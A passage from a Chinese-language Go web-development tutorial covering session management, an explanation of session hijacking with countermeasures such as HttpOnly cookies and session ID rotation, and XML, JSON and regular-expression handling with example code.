	ct := session.Get("countnum")
	if ct == nil {
		session.Set("countnum", 1)
	} else {
		session.Set("countnum", (ct.(int) + 1))
	}
	t, _ := template.ParseFiles("count.gtpl")
	w.Header().Set("Content-Type", "text/html")
	t.Execute(w, session.Get("countnum"))
}
```

通过上面的例子可以看到，Session 的操作和操作 key/value 数据库类似: Set、Get、Delete 等操作。

另外，因为 Session 有过期的概念，所以我们定义了 GC 操作，当访问过期时间满足 GC 的触发条件后将会引起 GC，但是当我们进行了任意一个 session 操作，都会对 Session 实体进行更新，都会触发对最后访问时间的修改，这样当 GC 的时候就不会误删除还在使用的 Session 实体。

##### session 销毁

我们知道，Web 应用中有用户退出这个操作，那么当用户退出应用的时候，我们需要对该用户的 session 数据进行销毁操作，上面的代码已经演示了如何使用 session 重置操作，下面这个函数就是实现了这个功能的销毁部分：

```go
//Destroy session
func (manager *Manager) SessionDestroy(w http.ResponseWriter, r *http.Request){
	cookie, err := r.Cookie(manager.cookieName)
	if err != nil || cookie.Value == "" {
		return
	} else {
		manager.lock.Lock()
		defer manager.lock.Unlock()
    //删除对应的 session 和 session ID
		manager.provider.SessionDestroy(cookie.Value)
    //设置过期时间为现在，意味着下次请求的时候会过期
		expiration := time.Now()
		cookie := http.Cookie{Name: manager.cookieName, Path: "/", HttpOnly: true, Expires: expiration, MaxAge: -1}
    //通过 http.ResponseWriter 写入到返回客户端的响应中
		http.SetCookie(w, &cookie)
	}
}
```

##### session GC

我们在 Main 启动的时候启动 GC：

```go
func init() {
  //启动一个 goroutine 来定时执行 GC
	go globalSessions.GC()
}
```

```go
func (manager *Manager) GC() {
	manager.lock.Lock()
	defer manager.lock.Unlock()
  //执行 provider.SessionGC 来检测 session 是否过期，如果过期，则会清除 session
	manager.provider.SessionGC(manager.maxLifeTime)
  //设置每隔 manager.maxLifeTime 重新触发 manager.GC()
	time.AfterFunc(time.Duration(manager.maxLifeTime), func() { manager.GC() })
}
```

我们可以看到 GC 充分利用了 time 包中的定时器功能，当超时 `maxLifeTime` 之后调用 GC 函数，这样就可以保证 `maxLifeTime` 时间内的 session 都是可用的，类似的方案也可以用于统计在线用户数之类的。

##### Session 与 Provider 协议的实现

```go
package memory

import (
	"container/list"
	"github.com/astaxie/session"
	"sync"
	"time"
)

var pder = &Provider{list: list.New()}

//实现了 Session 协议的 struct
type SessionStore struct {
	sid          string                      //session id唯一标示
	timeAccessed time.Time                   //最后访问时间
	value        map[interface{}]interface{} //session里面存储的值
}

//更新 session 中的 value
func (st *SessionStore) Set(key, value interface{}) error {
	st.value[key] = value
	pder.SessionUpdate(st.sid)
	return nil
}

//获取 session 中的 value
func (st *SessionStore) Get(key interface{}) interface{} {
	pder.SessionUpdate(st.sid)
	if v, ok := st.value[key]; ok {
		return v
	} else {
		return nil
	}
}

//删除 session 中的 value
func (st *SessionStore) Delete(key interface{}) error {
	delete(st.value, key)
	pder.SessionUpdate(st.sid)
	return nil
}

func (st *SessionStore) SessionID() string {
	return st.sid
}

//实现了 Provider 协议的 struct
type Provider struct {
	lock     sync.Mutex               //用来锁
	sessions map[string]*list.Element //用来存储在内存
	list     *list.List               //用来做gc
}

//创建 session
func (pder *Provider) SessionInit(sid string) (session.Session, error) {
	pder.lock.Lock()
	defer pder.lock.Unlock()
	v := make(map[interface{}]interface{}, 0)
  //创建一个新的 SessionStore 实例
	newsess := &SessionStore{sid: sid, timeAccessed: time.Now(), value: v}
  //添加到 list 中，方便后续 gc 操作
	element := pder.list.PushBack(newsess)
  //添加到 sessions 中
	pder.sessions[sid] = element
	return newsess, nil
}

//通过 sid 获取对应的 session
func (pder *Provider) SessionRead(sid string) (session.Session, error) {
	if element, ok := pder.sessions[sid]; ok {
		return element.Value.(*SessionStore), nil
	} else {
		sess, err := pder.SessionInit(sid)
		return sess, err
	}
	return nil, nil
}

//销毁对应的 session
func (pder *Provider) SessionDestroy(sid string) error {
	if element, ok := pder.sessions[sid]; ok {
		delete(pder.sessions, sid)
		pder.list.Remove(element)
		return nil
	}
	return nil
}

//通过 GC 检测 list 中的 session 是否过期，清除那些过期了的 session
func (pder *Provider) SessionGC(maxlifetime int64) {
	pder.lock.Lock()
	defer pder.lock.Unlock()

	for {
		element := pder.list.Back()
		if element == nil {
			break
		}
		if (element.Value.(*SessionStore).timeAccessed.Unix() + maxlifetime) < time.Now().Unix() {
			pder.list.Remove(element)
			delete(pder.sessions, element.Value.(*SessionStore).sid)
		} else {
			break
		}
	}
}

//更新对应 session 的时间，并将对应 sesstion 调整到 list 的首部
func (pder *Provider) SessionUpdate(sid string) error {
	pder.lock.Lock()
	defer pder.lock.Unlock()
	if element, ok := pder.sessions[sid]; ok {
		element.Value.(*SessionStore).timeAccessed = time.Now()
		pder.list.MoveToFront(element)
		return nil
	}
	return nil
}

func init() {
	pder.sessions = make(map[string]*list.Element, 0)
  //默认注册了 name 为 memory 的 session
	session.Register("memory", pder)
}
```

##### 架构设计图


##### 外部使用

```go
import (
	"github.com/astaxie/session"
	_ "github.com/astaxie/session/providers/memory"
)
```

当 import 的时候已经执行了 memory 函数里面的 init 函数，这样就已经注册到 session 管理器中，我们就可以使用了，通过如下方式就可以初始化一个 session 管理器：

```go
var globalSessions *session.Manager

//然后在init函数中初始化
func init() {
	globalSessions, _ = session.NewManager("memory", "gosessionid", 3600)
	go globalSessions.GC()
}
```


### c. 预防 session 劫持

session 劫持是一种广泛存在的比较严重的安全威胁，在 session 技术中，客户端和服务端通过 session 的标识符来维护会话， 但这个标识符很容易就能被嗅探到，从而被其他人利用。它是中间人攻击的一种类型。

#### session 劫持过程

我们写了如下的代码来展示一个 count 计数器：

```go
func count(w http.ResponseWriter, r *http.Request) {
	sess := globalSessions.SessionStart(w, r)
	ct := sess.Get("countnum")
	if ct == nil {
		sess.Set("countnum", 1)
	} else {
		sess.Set("countnum", (ct.(int) + 1))
	}
	t, _ := template.ParseFiles("count.gtpl")
	w.Header().Set("Content-Type", "text/html")
	t.Execute(w, sess.Get("countnum"))
}
```

count.gtpl 的代码如下所示：

```html
Hi. Now count:{{.}}
```

然后我们在浏览器里面刷新可以看到如下内容：


随着刷新，数字将不断增长，当数字显示为6的时候，打开浏览器 (以chrome为例) 的 cookie 管理器，可以看到类似如下的信息：


下面这个步骤最为关键：打开另一个浏览器(这里打开了 firefox 浏览器),复制 chrome 地址栏里的地址到新打开的浏览器的地址栏中。然后打开 firefox 的 cookie 模拟插件，新建一个 cookie，把按上图中 cookie 内容原样在 firefox 中重建一份：


回车后，你将看到如下内容：


可以看到虽然换了浏览器，但是我们却获得了 sessionID，然后模拟了 cookie 存储的过程。这个例子是在同一台计算机上做的，不过即使换用两台来做，其结果仍然一样。此时如果交替点击两个浏览器里的链接你会发现它们其实操纵的是同一个计数器。不必惊讶，此处 firefox 盗用了 chrome 和 goserver 之间的维持会话的钥匙，即 gosessionid，这是一种类型的“会话劫持”。在 goserver 看来，它从 http 请求中得到了一个 gosessionid，由于 HTTP 协议的无状态性，它无法得知这个 gosessionid 是从 chrome 那里“劫持”来的，它依然会去查找对应的 session，并执行相关计算。与此同时 chrome 也无法得知自己保持的会话已经被“劫持”。

#### 防范措施

##### 1. cookie only & token

一个解决方案就是 sessionID 的值只允许 cookie 设置，而不是通过 URL 重置方式设置，同时设置 cookie 的 httponly 为 true，这个属性是设置是否可通过客户端脚本访问这个设置的 cookie，第一这个可以防止这个 cookie 被 XSS 读取从而引起 session 劫持，第二 cookie 设置不会像 URL 重置方式那么容易获取 sessionID。

第二步就是在每个请求里面加上 token，实现类似前面章节里面讲的防止 form 重复递交类似的功能，我们在每个请求里面加上一个隐藏的 token，然后每次验证这个 token，从而保证用户的请求都是唯一性。

```go
h := md5.New()
salt:="astaxie%^7&8888"
io.WriteString(h,salt+time.Now().String())
token:=fmt.Sprintf("%x",h.Sum(nil))
if r.Form["token"]!=token{
	//提示登录
}
sess.Set("token",token)
```

##### 2. 间隔生成新的 Session ID

还有一个解决方案就是，我们给 session 额外设置一个创建时间的值，一旦过了一定的时间，我们销毁这个 sessionID，重新生成新的 session，这样可以一定程度上防止 session 劫持的问题。

```go
createtime := sess.Get("createtime")
if createtime == nil {
	sess.Set("createtime", time.Now().Unix())
} else if (createtime.(int64) + 60) < (time.Now().Unix()) {
	globalSessions.SessionDestroy(w, r)
	sess = globalSessions.SessionStart(w, r)
}
```

session 启动后，我们设置了一个值，用于记录生成 sessionID 的时间。通过判断每次请求是否过期(这里设置了 60 秒)定期生成新的 ID，这样使得攻击者获取有效 sessionID 的机会大大降低。

上面两个手段的组合可以在实践中消除 session 劫持的风险，一方面，由于 sessionID 频繁改变，使攻击者难有机会获取有效的 sessionID；另一方面，因为 sessionID 只能在 cookie 中传递，然后设置了 httponly，所以基于 URL 攻击的可能性为零，同时被 XSS 获取 sessionID 也不可能。最后，由于我们还设置了 MaxAge=0，这样就相当于 session cookie 不会留在浏览器的历史记录里面。


## *8. 文本文件处理*

### a. XML 处理

#### 解析 XML

我们可以通过 xml 包的 `Unmarshal` 函数来帮我们解析 xml 文件：

```go
func Unmarshal(data []byte, v interface{}) error
```

data接收的是XML数据流，v是需要输出的结构，定义为interface，也就是可以把XML转换为任意的格式。我们这里主要介绍struct的转换，因为struct和XML都有类似树结构的特征。

##### 示例

```xml
<?xml version="1.0" encoding="utf-8"?>
<servers version="1">
	<server>
		<serverName>Shanghai_VPN</serverName>
		<serverIP>127.0.0.1</serverIP>
	</server>
	<server>
		<serverName>Beijing_VPN</serverName>
		<serverIP>127.0.0.2</serverIP>
	</server>
</servers>
```

```go
package main

import (
	"encoding/xml"
	"fmt"
	"io/ioutil"
	"os"
)

type Recurlyservers struct {
	XMLName     xml.Name `xml:"servers"`
	Version     string   `xml:"version,attr"`
	Svs         []server `xml:"server"`
	Description string   `xml:",innerxml"`
}

type server struct {
	XMLName    xml.Name `xml:"server"`
	ServerName string   `xml:"serverName"`
	ServerIP   string   `xml:"serverIP"`
}

func main() {
	file, err := os.Open("servers.xml") // For read access.		
	if err != nil {
		fmt.Printf("error: %v", err)
		return
	}
	defer file.Close()
  //读取 xml 文件中的数据
	data, err := ioutil.ReadAll(file)
	if err != nil {
		fmt.Printf("error: %v", err)
		return
	}
	v := Recurlyservers{}
  //解析 xml 的数据
	err = xml.Unmarshal(data, &v)
	if err != nil {
		fmt.Printf("error: %v", err)
		return
	}

	fmt.Println(v)
}
```

XML本质上是一种树形的数据格式，而我们可以定义与之匹配的go 语言的 struct类型，然后通过xml.Unmarshal来将xml中的数据解析成对应的struct对象。如上例子输出如下数据：

```go
{{ servers} 1 [{{ server} Shanghai_VPN 127.0.0.1} {{ server} Beijing_VPN 127.0.0.2}]
<server>
	<serverName>Shanghai_VPN</serverName>
	<serverIP>127.0.0.1</serverIP>
</server>
<server>
	<serverName>Beijing_VPN</serverName>
	<serverIP>127.0.0.2</serverIP>
</server>
}
```

上面的例子中，将xml文件解析成对应的struct对象是通过`xml.Unmarshal`来完成的，这个过程是如何实现的？可以看到我们的struct定义后面多了一些类似于`xml:"serverName"`这样的内容,这个是struct的一个特性，它们被称为 struct tag，它们是用来辅助反射的，并且这是有一个优先级读取流程的，首先会读取struct tag，如果没有，那么就会对应字段名。

> 必须注意一点的是解析的时候 tag、字段名、XML 元素都是大小写敏感的，所以必须一一对应字段。
>
> 另外，由于 XML 包内部采用了反射来进行数据的映射，所以定义的 struct 里面的字段必须都是导出的 (即首字母大写) 。

##### 规则

解析XML到struct的时候遵循如下的规则：

- 如果struct的一个字段是string或者[]byte类型且它的tag含有`",innerxml"`，Unmarshal将会将此字段所对应的元素内所有内嵌的原始xml累加到此字段上，如上面例子Description定义。最后的输出是

```xml
	<server>
		<serverName>Shanghai_VPN</serverName>
		<serverIP>127.0.0.1</serverIP>
	</server>
	<server>
		<serverName>Beijing_VPN</serverName>
		<serverIP>127.0.0.2</serverIP>
	</server>
```

- 如果struct中有一个叫做XMLName，且类型为xml.Name字段，那么在解析的时候就会保存这个element的名字到该字段,如上面例子中的servers。
- 如果某个struct字段的tag定义中含有XML结构中element的名称，那么解析的时候就会把相应的element值赋值给该字段，如上servername和serverip定义。
- 如果某个struct字段的tag定义了中含有`",attr"`，那么解析的时候就会将该结构所对应的element的与字段同名的属性的值赋值给该字段，如上version定义。
- 如果某个struct字段的tag定义 型如`"a>b>c"`,则解析的时候，会将xml结构a下面的b下面的c元素的值赋值给该字段。
- 如果某个struct字段的tag定义了`"-"`,那么不会为该字段解析匹配任何xml数据。
- 如果struct字段后面的tag定义了`",any"`，如果他的子元素在不满足其他的规则的时候就会匹配到这个字段。
- 如果某个XML元素包含一条或者多条注释，那么这些注释将被累加到第一个tag含有",comments"的字段上，这个字段的类型可能是[]byte或string,如果没有这样的字段存在，那么注释将会被抛弃。

上面详细讲述了如何定义struct的tag。 只要设置对了tag，那么XML解析就如上面示例般简单，tag和XML的element是一一对应的关系，如上所示，我们还可以通过slice来表示多个同级元素。

#### 输出 XML

假若我们不是要解析如上所示的XML文件，而是生成它，那么在go语言中又该如何实现呢？ xml包中提供了`Marshal`和`MarshalIndent`两个函数，来满足我们的需求。这两个函数主要的区别是第二个函数会增加前缀和缩进，函数的定义如下所示：

```go
func Marshal(v interface{}) ([]byte, error)
func MarshalIndent(v interface{}, prefix, indent string) ([]byte, error)
```

两个函数第一个参数是用来生成XML的结构定义类型数据，都是返回生成的XML数据流。

下面我们来看一下如何输出上文的XML：

```go
package main

import (
	"encoding/xml"
	"fmt"
	"os"
)

type Servers struct {
	XMLName xml.Name `xml:"servers"`
	Version string   `xml:"version,attr"`
	Svs     []server `xml:"server"`
}

type server struct {
	ServerName string `xml:"serverName"`
	ServerIP   string `xml:"serverIP"`
}

func main() {
	v := &Servers{Version: "1"}
	v.Svs = append(v.Svs, server{"Shanghai_VPN", "127.0.0.1"})
	v.Svs = append(v.Svs, server{"Beijing_VPN", "127.0.0.2"})
  //MarshalIndent会安装第2和第3个参数来处理输出xml中的缩进
	output, err := xml.MarshalIndent(v, "  ", "    ")
	if err != nil {
		fmt.Printf("error: %v\n", err)
	}
  //额外输出 xml 的头部
	os.Stdout.Write([]byte(xml.Header))
	os.Stdout.Write(output)
}
```

上面的代码输出如下信息：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<servers version="1">
<server>
	<serverName>Shanghai_VPN</serverName>
	<serverIP>127.0.0.1</serverIP>
</server>
<server>
	<serverName>Beijing_VPN</serverName>
	<serverIP>127.0.0.2</serverIP>
</server>
</servers>
```

和我们之前定义的文件的格式一模一样，之所以会有`os.Stdout.Write([]byte(xml.Header))` 这句代码的出现，是因为`xml.MarshalIndent`或者`xml.Marshal`输出的信息都是不带XML头的，为了生成正确的xml文件，我们使用了xml包预定义的Header变量。

我们看到`Marshal`函数接收的参数v是interface{}类型的，即它可以接受任意类型的参数，那么xml包，根据什么规则来生成相应的XML文件呢？

- 如果v是 array或者slice，那么输出每一个元素，类似value
- 如果v是指针，那么会Marshal指针指向的内容，如果指针为空，什么都不输出
- 如果v是interface，那么就处理interface所包含的数据
- 如果v是其他数据类型，就会输出这个数据类型所拥有的字段信息

生成的XML文件中的element的名字又是根据什么决定的呢？元素名按照如下优先级从struct中获取：

- 如果v是struct，XMLName的tag中定义的名称
- 类型为xml.Name的名叫XMLName的字段的值
- 通过struct中字段的tag来获取
- 通过struct的字段名用来获取
- marshall的类型名称

我们应如何设置struct 中字段的tag信息以控制最终xml文件的生成呢？

- XMLName不会被输出
- tag中含有`"-"`的字段不会输出
- tag中含有`"name,attr"`，会以name作为属性名，字段值作为值输出为这个XML元素的属性，如上version字段所描述
- tag中含有`",attr"`，会以这个struct的字段名作为属性名输出为XML元素的属性，类似上一条，只是这个name默认是字段名了。
- tag中含有`",chardata"`，输出为xml的 character data而非element。
- tag中含有`",innerxml"`，将会被原样输出，而不会进行常规的编码过程
- tag中含有`",comment"`，将被当作xml注释来输出，而不会进行常规的编码过程，字段值中不能含有"--"字符串
- tag中含有`"omitempty"`,如果该字段的值为空值那么该字段就不会被输出到XML，空值包括：false、0、nil指针或nil接口，任何长度为0的array, slice, map或者string
- tag中含有`"a>b>c"`，那么就会循环输出三个元素a包含b，b包含c，例如如下代码就会输出：

```go
//xxx struct
FirstName string   `xml:"name>first"`
LastName  string   `xml:"name>last"`
```
```xml
<!-- output -->
<name>
<first>Asta</first>
<last>Xie</last>
</name>
```


### b. JSON 处理

JSON（Javascript Object Notation）是一种轻量级的数据交换语言，以文字为基础，具有自我描述性且易于让人阅读。尽管JSON是Javascript的一个子集，但 JSON 是独立于语言的文本格式，并且采用了类似于C语言家族的一些习惯。JSON与XML最大的不同在于XML是一个完整的标记语言，而JSON不是。JSON由于比XML更小、更快，更易解析,以及浏览器的内建快速解析支持,使得其更适用于网络数据传输领域。

#### 解析 JSON

##### -> struct

```json
{"servers":
 [
  {"serverName":"Shanghai_VPN","serverIP":"127.0.0.1"}, 
  {"serverName":"Beijing_VPN","serverIP":"127.0.0.2"}
 ]
}
```

假如有了上面的 JSON 串，Go 的 JSON 包中有如下函数可供我们来解析：

```go
func Unmarshal(data []byte, v interface{}) error
```

通过这个函数我们就可以实现解析的目的，详细的解析例子请看如下代码：

```go
package main

import (
	"encoding/json"
	"fmt"
)

type Server struct {
	ServerName string
	ServerIP   string
}

type Serverslice struct {
	Servers []Server
}

func main() {
	var s Serverslice
  //用``包含的字符串不会转义
	str := 
`{"servers":
 [
  {"serverName":"Shanghai_VPN","serverIP":"127.0.0.1"}, 
  {"serverName":"Beijing_VPN","serverIP":"127.0.0.2"}
 ]
}`
  //使用Unmarshal解析JSON
	json.Unmarshal([]byte(str), &s)
	fmt.Println(s)
}
```

例如 JSON 的 key 是 `Foo` ，那么解析的优先级规则为：

1. 首先查找tag含有`Foo`的可导出的struct字段(首字母大写)
2. 其次查找字段名是`Foo`的导出字段
3. 最后查找类似`FOO`或者`FoO`这样的除了首字母之外其他大小写不敏感的导出字段

> 能被解析赋值的字段必须是可导出字段 (即首字母大写) 。这意味着 JSON 解析的时候只会解析那些可导出字段，非导出字段会被忽略，这样的一个好处是：当你接收到一个很大的 JSON 数据结构而你却只想获取其中的一小部分的数据时，你可以通过大小写首字母的字段名去控制只解析预期的那些字段。

##### -> interface

上面那种解析方式是在我们知晓被解析的 JSON 数据的结构的前提下采取的方案，如果我们不知道被解析的数据的格式，又应该如何来解析呢？

我们知道 interface{} 可以用来存储任意数据类型的对象，这种数据结构正好用于存储解析的未知结构的 JSON 数据的结果。JSON 包中采用 map[string]interface{} 和 []interface{} 结构来存储任意的 JSON 对象和数组。Go类型和 JSON 类型的对应关系如下：

- bool 代表 JSON boolean
- float64 代表 JSON number
- string 代表 JSON string
- nil 代表 JSON null

现在我们假设有如下的JSON数据

```
b := []byte(`{"Name":"Wednesday","Age":6,"Parents":["Gomez","Morticia"]}`)
```

如果在我们不知道他的结构的情况下，我们把他解析到interface{}里面

```
var f interface{}
err := json.Unmarshal(b, &f)
```

这个时候f里面存储了一个map类型，他们的key是string，值存储在空的interface{}里

```go
f = map[string]interface{}{
	"Name": "Wednesday",
	"Age":  6,
	"Parents": []interface{}{
		"Gomez",
		"Morticia",
	},
}
```

按照官方提供的解决方案，我们可以通过断言的方式来访问数据：

```go
m := f.(map[string]interface{})
```

通过断言之后，你就可以通过如下方式来访问里面的数据了

```go
for k, v := range m {
	switch vv := v.(type) {
	case string:
		fmt.Println(k, "is string", vv)
	case int:
		fmt.Println(k, "is int", vv)
	case float64:
		fmt.Println(k,"is float64",vv)
	case []interface{}:
		fmt.Println(k, "is an array:")
		for i, u := range vv {
			fmt.Println(i, u)
		}
	default:
		fmt.Println(k, "is of a type I don't know how to handle")
	}
}
```

通过上面的示例可以看到，通过 interface{} 与 type assert 的配合，我们就可以解析未知结构的 JSON 数了。

但是我们发现很多时候通过类型断言，操作起来不是很方便。于是推荐几个比较便捷的 GO JSON 解析三方库：

* [gjson](https://github.com/tidwall/gjson)
* [jsonparser](https://github.com/buger/jsonparser)
* [go-simplejson](https://github.com/bitly/go-simplejson)

上述的三方库在处理未知结构体的 JSON 时相当方便，以下以 go-simplejson 为例：

```go
js, err := NewJson([]byte(`{
	"test": {
		"array": [1, "2", 3],
		"int": 10,
		"float": 5.150,
		"bignum": 9223372036854775807,
		"string": "simplejson",
		"bool": true
	}
}`))

arr, _ := js.Get("test").Get("array").Array()
i, _ := js.Get("test").Get("int").Int()
ms := js.Get("test").Get("string").MustString()
```

#### 生成 JSON

我们开发很多应用的时候，最后都是要输出JSON数据串，那么如何来处理呢？JSON包里面通过`Marshal`函数来处理，函数定义如下：

```go
func Marshal(v interface{}) ([]byte, error)
```

假设我们需要生成上面的服务器列表信息 JSON，请看下面的例子：

```go
package main

import (
	"encoding/json"
	"fmt"
)

type Server struct {
	ServerName string
	ServerIP   string
}

type Serverslice struct {
	Servers []Server
}

func main() {
	var s Serverslice
	s.Servers = append(s.Servers, Server{ServerName: "Shanghai_VPN", ServerIP: "127.0.0.1"})
	s.Servers = append(s.Servers, Server{ServerName: "Beijing_VPN", ServerIP: "127.0.0.2"})
  //将 struct 转换成二进制数据(byte[])
	b, err := json.Marshal(s)
	if err != nil {
		fmt.Println("json err:", err)
	}
	fmt.Println(string(b))
}
```

输出如下内容：

```json
{"Servers":
 [
  {"ServerName":"Shanghai_VPN","ServerIP":"127.0.0.1"}, 
  {"ServerName":"Beijing_VPN","ServerIP":"127.0.0.2"}
 ]
}
```

我们看到上面的输出字段名的首字母都是大写的，如果你想用小写的首字母怎么办呢？把结构体的字段名改成首字母小写的？JSON输出的时候必须注意，只有导出的字段才会被输出，如果修改字段名，那么就会发现什么都不会输出，所以必须通过struct tag定义来实现：

```go
type Server struct {
	ServerName string `json:"serverName"`
	ServerIP   string `json:"serverIP"`
}

type Serverslice struct {
	Servers []Server `json:"servers"`
}
```

通过修改上面的结构体定义，输出的 JSON 串就和我们最开始定义的 JSON 串保持一致了。

针对 JSON 的输出，我们在定义struct tag的时候需要注意的几点是：

- 字段的tag是`"-"`，那么这个字段不会输出到 JSON
- tag中带有自定义名称，那么这个自定义名称会出现在 JSON 的字段名中，例如上面例子中serverName
- tag中如果带有`"omitempty"`选项，那么如果该字段值为空，就不会输出到 JSON 串中
- 如果字段类型是bool, string, int, int64等，而tag中带有`",string"`选项，那么这个字段在输出到 JSON 的时候会把该字段对应的值转换成 JSON 字符串

举例来说：

```go
type Server struct {
	// ID 不会导出到JSON中
	ID int `json:"-"`

	// ServerName2 的值会进行二次JSON编码
	ServerName  string `json:"serverName"`
	ServerName2 string `json:"serverName2,string"`

	// 如果 ServerIP 为空，则不输出到JSON串中
	ServerIP   string `json:"serverIP,omitempty"`
}

s := Server {
	ID:         3,
	ServerName:  `Go "1.0" `,
	ServerName2: `Go "1.0" `,
	ServerIP:   ``,
}
b, _ := json.Marshal(s)
os.Stdout.Write(b)
```

会输出以下内容：

```json
{
  "serverName":"Go \"1.0\" ",
  "serverName2":"\"Go \\\"1.0\\\" \""
}
```

Marshal 函数只有在转换成功的时候才会返回数据，在转换的过程中我们需要注意几点：

- JSON 对象只支持string作为key，所以要编码一个map，那么必须是 map[string]T 这种类型 (T是Go语言中任意的类型)
- Channel, complex 和 function是不能被编码成 JSON 的
- 嵌套的数据是不能编码的，不然会让 JSON 编码进入死循环
- 指针在编码的时候会输出指针指向的内容，而空指针会输出 null


### c. 正则处理

正则表达式是一种进行模式匹配和文本操纵的复杂而又强大的工具。虽然正则表达式比纯粹的文本匹配效率低，但是它却更灵活。按照它的语法规则，随需构造出的匹配模式就能够从原始文本中筛选出几乎任何你想要得到的字符组合。如果你在Web开发中需要从一些文本数据源中获取数据,那么你只需要按照它的语法规则，随需构造出正确的模式字符串就能够从原数据源提取出有意义的文本信息。

Go语言通过`regexp`标准包为正则表达式提供了官方支持，如果你已经使用过其他编程语言提供的正则相关功能，那么你应该对Go语言版本的不会太陌生，但是它们之间也有一些小的差异，因为Go实现的是RE2标准，除了\C，详细的语法描述参考：http://code.google.com/p/re2/wiki/Syntax

其实字符串处理我们可以使用`strings`包来进行搜索(Contains、Index)、替换(Replace)和解析(Split、Join)等操作，但是这些都是简单的字符串操作，他们的搜索都是大小写敏感，而且固定的字符串，如果我们需要匹配可变的那种就没办法实现了，当然如果`strings`包能解决你的问题，那么就尽量使用它来解决。因为他们足够简单、而且性能和可读性都会比正则好。

#### 通过正则判断是否匹配

`regexp`包中含有三个函数用来判断是否匹配，如果匹配返回true，否则返回false：

```go
func Match(pattern string, b []byte) (matched bool, error error)
func MatchReader(pattern string, r io.RuneReader) (matched bool, error error)
func MatchString(pattern string, s string) (matched bool, error error)
```

以上三个函数的输入源分别是byte slice、RuneReader 和 string 。

举个栗子，我们现在需要验证一个输入是不是 ip 地址：

```go
func IsIP(ip string) (b bool) {
	if m, _ := regexp.MatchString("^[0-9]{1,3}\\.[0-9]{1,3}\\.[0-9]{1,3}\\.[0-9]{1,3}$", ip); !m {
		return false
	}
	return true
}
```

#### 通过正则获取内容

Match模式只能用来对字符串的判断，而无法截取字符串的一部分、过滤字符串、或者提取出符合条件的一批字符串。如果想要满足这些需求，那就需要使用正则表达式的复杂模式。

我们经常需要一些爬虫程序，下面就以爬虫为例来说明如何使用正则来过滤或截取抓取到的数据：

```go
package main

import (
	"fmt"
	"io/ioutil"
	"net/http"
	"regexp"
	"strings"
)

func main() {
	resp, err := http.Get("http://www.baidu.com")
	if err != nil {
		fmt.Println("http get error.")
	}
	defer resp.Body.Close()
	body, err := ioutil.ReadAll(resp.Body)
	if err != nil {
		fmt.Println("http read error")
		return
	}

	src := string(body)

	//将HTML标签全转换成小写
	re, _ := regexp.Compile("\\<[\\S\\s]+?\\>")
	src = re.ReplaceAllStringFunc(src, strings.ToLower)

	//去除STYLE
	re, _ = regexp.Compile("\\<style[\\S\\s]+?\\</style\\>")
	src = re.ReplaceAllString(src, "")

	//去除SCRIPT
	re, _ = regexp.Compile("\\<script[\\S\\s]+?\\</script\\>")
	src = re.ReplaceAllString(src, "")

	//去除所有尖括号内的HTML代码，并换成换行符
	re, _ = regexp.Compile("\\<[\\S\\s]+?\\>")
	src = re.ReplaceAllString(src, "\n")

	//去除连续的换行符
	re, _ = regexp.Compile("\\s{2,}")
	src = re.ReplaceAllString(src, "\n")

	fmt.Println(strings.TrimSpace(src))
}
```

从这个示例可以看出，使用复杂的正则首先是Compile，它会解析正则表达式是否合法，如果正确，那么就会返回一个Regexp，然后就可以利用返回的Regexp在任意的字符串上面执行需要的操作。

解析正则表达式的有如下几个方法：

```go
func Compile(expr string) (*Regexp, error)
func CompilePOSIX(expr string) (*Regexp, error)
func MustCompile(str string) *Regexp
func MustCompilePOSIX(str string) *Regexp
```

CompilePOSIX和Compile的不同点在于POSIX必须使用POSIX语法，它使用最左最长方式搜索，而Compile是采用的则只采用最左方式搜索(例如[a-z]{2,4}这样一个正则表达式，应用于"aa09aaa88aaaa"这个文本串时，CompilePOSIX返回了aaaa，而Compile的返回的是aa)。前缀有Must的函数表示，在解析正则语法的时候，如果匹配模式串不满足正确的语法则直接panic，而不加Must的则只是返回错误。

在了解了如何新建一个Regexp之后，我们再来看一下这个struct提供了哪些方法来辅助我们操作字符串，首先我们来看下面这些用来搜索的函数：

```go
func (re *Regexp) Find(b []byte) []byte
func (re *Regexp) FindAll(b []byte, n int) [][]byte
func (re *Regexp) FindAllIndex(b []byte, n int) [][]int
func (re *Regexp) FindAllString(s string, n int) []string
func (re *Regexp) FindAllStringIndex(s string, n int) [][]int
func (re *Regexp) FindAllStringSubmatch(s string, n int) [][]string
func (re *Regexp) FindAllStringSubmatchIndex(s string, n int) [][]int
func (re *Regexp) FindAllSubmatch(b []byte, n int) [][][]byte
func (re *Regexp) FindAllSubmatchIndex(b []byte, n int) [][]int
func (re *Regexp) FindIndex(b []byte) (loc []int)
func (re *Regexp) FindReaderIndex(r io.RuneReader) (loc []int)
func (re *Regexp) FindReaderSubmatchIndex(r io.RuneReader) []int
func (re *Regexp) FindString(s string) string
func (re *Regexp) FindStringIndex(s string) (loc []int)
func (re *Regexp) FindStringSubmatch(s string) []string
func (re *Regexp) FindStringSubmatchIndex(s string) []int
func (re *Regexp) FindSubmatch(b []byte) [][]byte
func (re *Regexp) FindSubmatchIndex(b []byte) []int
```

最后我们再来看一个综合的栗子：

```go
package main

import (
	"fmt"
	"regexp"
)

func main() {
	a := "I am learning Go language"

	re, _ := regexp.Compile("[a-z]{2,4}")

	//查找符合正则的第一个
	one := re.Find([]byte(a))
	fmt.Println("Find:", string(one))

	//查找符合正则的所有slice,n小于0表示返回全部符合的字符串，不然就是返回指定的长度
	all := re.FindAll([]byte(a), -1)
	fmt.Println("FindAll", all)

	//查找符合条件的index位置,开始位置和结束位置
	index := re.FindIndex([]byte(a))
	fmt.Println("FindIndex", index)

	//查找符合条件的所有的index位置，n同上
	allindex := re.FindAllIndex([]byte(a), -1)
	fmt.Println("FindAllIndex", allindex)

	re2, _ := regexp.Compile("am(.*)lang(.*)")

	//查找Submatch,返回数组，第一个元素是匹配的全部元素，第二个元素是第一个()里面的，第三个是第二个()里面的
	//下面的输出第一个元素是"am learning Go language"
	//第二个元素是" learning Go "，注意包含空格的输出
	//第三个元素是"uage"
	submatch := re2.FindSubmatch([]byte(a))
	fmt.Println("FindSubmatch", submatch)
	for _, v := range submatch {
		fmt.Println(string(v))
	}

	//定义和上面的FindIndex一样
	submatchindex := re2.FindSubmatchIndex([]byte(a))
	fmt.Println(submatchindex)

	//FindAllSubmatch,查找所有符合条件的子匹配
	submatchall := re2.FindAllSubmatch([]byte(a), -1)
	fmt.Println(submatchall)

	//FindAllSubmatchIndex,查找所有字匹配的index
	submatchallindex := re2.FindAllSubmatchIndex([]byte(a), -1)
	fmt.Println(submatchallindex)
}
```


